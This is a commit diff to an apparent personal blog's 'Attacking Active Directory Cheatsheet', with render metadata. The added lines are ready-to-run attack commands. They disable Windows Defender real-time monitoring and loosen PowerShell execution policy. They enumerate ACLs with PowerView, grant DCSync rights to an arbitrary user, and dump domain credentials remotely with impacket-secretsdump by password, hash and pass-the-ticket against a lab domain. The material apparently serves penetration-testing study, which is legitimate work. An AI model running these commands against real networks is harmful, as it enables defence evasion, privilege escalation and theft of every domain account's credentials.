

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 14468 px. Shown: the whole window at 91% size, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -18,6 +18,7 @@
 - [GPP cpassword](#gpp-cpassword)
 - [Password Spraying](#password-spraying)
 - [Runas and RunasCs.exe](#runas-and-runascsexe)
+- [Enable Running Scripts and Disable Windows Defender](#enable-running-scripts-and-disable-windows-defender)
 - [BloodHound](#bloodhound)
 - [PowerView.ps1](#powerviewps1)
 - [Impacket PsExec, WmiExec and SMBExec](#impacket-psexec-wmiexec-and-smbexec)
@@ -340,6 +341,17 @@
 # Using RunasCs.exe with pwnednewuser (pwnednewuser is a new user with admin rights we added before through an exploit)
 ./RunasCs.exe pwnednewuser 'password123!' "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
 ```
+### Enable Running Scripts and Disable Windows Defender
+```shell
+# Enable Running Scripts on PowerShell (as Administrator)
+Set-ExecutionPolicy RemoteSigned
+Set-ExecutionPolicy Unrestricted
+Get-ExecutionPolicy
+
+# Disable Windows Defender on PowerShell (as Administrator)
+Set-MpPreference -DisableRealtimeMonitoring $true
+Get-MpPreference | Select-Object -Property DisableRealtimeMonitoring
+```
 ### BloodHound
 ```shell
 # BloodHound Collectors
@@ -369,21 +381,29 @@
 ```
 ### PowerView.ps1
 ```shell
-# Enable Running Scripts on PowerShell (as Administrator)
-Set-ExecutionPolicy RemoteSigned
-Set-ExecutionPolicy Unrestricted
-Get-ExecutionPolicy
 
 # Get Domain User Information
 Import-Module .\PowerView.ps1
 $Cred = Get-Credential -UserName "vorkharium.com\john"
-# Enter password
+# It will ask for user "john" password here. Enter it manually
 Get-DomainUser -Identity "john" -Credential $Cred -Verbose
 
 # Detect Kerberoastable Account
 $Pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
 $Cred = New-Object System.Management.Automation.PSCredential('vorkharium.com\john, $Pass')
 Get-DomainUser -SPN -Domain vorkharium.com -Credential $Cred | select SamAccountName
+
+# Enumerate ACLs with NameToSid
+$sid = Convert-NameToSid -Name john
+Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
+
+# Detect Objects with ACLs (GenericAll) to perform DCSync
+Get-ObjectAcl -DistinguishedName "dc=vorkharium,dc=com" -ResolveGUIDs |
+Where {	$_.ObjectType -match 'replication-get' -or $_.ActiveDirectoryRights -match 'GenericAll' }
+
+# Enumerate ACLs
+$sid = Convert-NameToSid -Name john
+Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
 ```
 For a complete and detailed list of all PowerView.ps1 commands check the following link:
 https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview
@@ -472,6 +492,32 @@
 ```
 ### DCSync
 ```shell
+# To be able to DCSync, the user needs to have these 3 permissions:
+DS-Replication-Get-Changes
+Replicating Directory Changes All
+Replicating Directory Changes In Filtered Set
+
+# Enumerating DCSync user permissions with PowerView.ps1
+Get-ObjectAcl -DistinguishedName "dc=vorkharium,dc=com" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
+
+# Granting DCSync rights to any user using the Domain Admin user john and PowerView.ps1
+$Pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
+$Cred = New-Object System.Management.Automation.PSCredential('vorkharium.com\john, $Pass')
+Add-ObjectAcl -TargetDistinguishedName "dc=vorkharium,dc=com" -PrincipalSamAccountName newlyoverpowereduser -Rights DCSync -Verbose
+# Check if the user successfully got DCSync rights
+Get-ObjectAcl -DistinguishedName "dc=vorkharium,dc=com" -ResolveGUIDs | ?{$_.IdentityReference -match "newlyoverpowereduser"}
+
+# Remote DCSync
+# With password
+impacket-secretsdump -outputfile dcsync.txt vorkharium.com/john:'Password123!'@172.16.150.10
+
+# With hash
+impacket-secretsdump -outputfile dcsync.txt -hashes :1a06b4248879e68a498d3bac51bf91c9 vorkharium.com/john@172.16.150.10
+
+# Pass-the-Ticket
+impacket-getTGT -dc-ip 172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9 'vorkharium.com/john@172.16.150.10'
+export KRB5CCNAME='username.ccache'
+impacket-secretsdump -k -outputfile dcsync.txt "vorkharium.com/john:'Password123!'@172.16.150.10"
 ```
 ### Remote Credential Dumping
 ```shell
@@ -479,7 +525,7 @@
 # With password
 impacket-secretsdump vorkharium.com/john:'Password123!'@172.16.150.10
 # Using hash
-impacket-secretsdump Administrator:@172.16.150.10 --hashes :1a06b4248879e68a498d3bac51bf91c9
+impacket-secretsdump Administrator:@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
 
 # Example with -just-dc-user
 impacket-secretsdump -just-dc-user jane vorkharium.com/john:"Password123!"@172.16.150.10
````
